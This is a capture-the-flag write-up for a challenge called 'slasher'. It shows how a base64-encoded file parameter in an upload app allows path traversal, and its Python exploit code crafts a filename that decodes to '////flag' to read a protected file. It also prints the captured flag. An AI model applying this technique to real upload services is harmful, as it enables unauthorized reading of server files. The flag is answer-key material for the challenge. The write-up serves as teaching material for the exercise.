 # slasher

## Write-up

- Register a user `a:a`

- Indicate filename (`test` for example) and upload file

- Notice that the URL of the uploaded file ends with a GET parameter : `?file=dGVzdA==`

- `dGVzdA==` could be a base64 encoded string, and effectively it decodes to `test` (the filename indicated)

- One of the characters used by the base64 charset is `/`, a dangerous character for file paths

- Since the goal is to read `/flag`, let's try to provide a filename that base64 encodes to `/flag`. In other words, let's try to base64 decode `/flag` string

- In python :  

```python
>>> import base64
>>> base64.b64decode('/flag')
binascii.Error: Incorrect padding
>>> base64.b64decode('////flag')
b'\xff\xff\xff~V\xa0'
```

Since a base64 encoded string has to verify `(length * 6) % 8 == 0`, we prepend a few slashes.

- To make exploitation easier we can write a few helper functions :  

```python
from pwn import *
import requests
from sys import argv, exit, stderr
import os

BASE_URL = "http://127.0.0.1:3000"
UPLOAD_URL = f"{BASE_URL}/upload"
LOGIN_URL = f"{BASE_URL}/login"
UPLOAD_FILE = "/tmp/upload"
USERNAME = "a"
PASSWORD = "a"

s = requests.Session()

def log_response(resp):
    log.info(f"resp.text: {resp.text}")
    log.info(f"resp.status_code: {resp.status_code}")

def upload(filename, content, verbose=False):
    with open(UPLOAD_FILE, 'wb') as f:
        f.write(content)
    with open(UPLOAD_FILE, 'rb') as f:
        files = {"file": f}
        data = {"filename": filename}
        resp = s.post(url=UPLOAD_URL, files=files, data=data)
        verbose and log.info(f"request.body: {resp.request.body}")
        verbose and log_response(resp)

def login(username, password, verbose=False):
    data = {
        "username": username,
        "password": password,
    }
    resp = s.post(url=LOGIN_URL, data=data)
    verbose and log_response(resp)
```

- Let's try to upload a file with filename `\xff\xff\xff~V\xa0` :  

```python
login(USERNAME, PASSWORD)
filename = b64d(b"////flag")
upload(filename, b"SOME CONTENT", verbose=True)
```

- HTTP Response (important part) :  

```html
        <div class="alert alert-info alert-dismissible fade show mt-3 w-50" role="alert">
          Filename: ���~V�
          <button type="button" class="btn close" data-dismiss="alert" aria-label="Close">
            <span aria-hidden="true">&times;</span>
          </button>
        </div>

        <div class="alert alert-danger alert-dismissible fade show mt-3 w-50" role="alert">
          Error: &#39;latin-1&#39; codec can&#39;t encode characters in position 0-2: ordinal not in range(256)
          <button type="button" class="btn close" data-dismiss="alert" aria-label="Close">
            <span aria-hidden="true">&times;</span>
          </button>
        </div>
```

We can see there is an encoding error : `Error: 'latin-1'; codec can't encode characters in position 0-2: ordinal not in range(256)`. The server is probably trying to encode the filename in `latin-1` encoding.

- Before uploading the file, let's decode the filename from `latin-1` encoding :  

```python
login(USERNAME, PASSWORD)
filename = b64d(b"////flag").decode('latin-1')
upload(filename, b"SOME CONTENT", verbose=True)
```

- We get a 500 internal server error, one could guess it tried to overwrite a read-only `/flag` file

- When heading back to `/` we see `ÿÿÿ~V` among the uploaded files and it is pointing to `/?file=////flag`

- After downloading the file, we can read the flag : `shellmates{d3F1Ni73Ly_nOT_uRls4Fe_Base64}`

Full exploit [here](solve.py).

## Flag

`shellmates{d3F1Ni73Ly_nOT_uRls4Fe_Base64}`
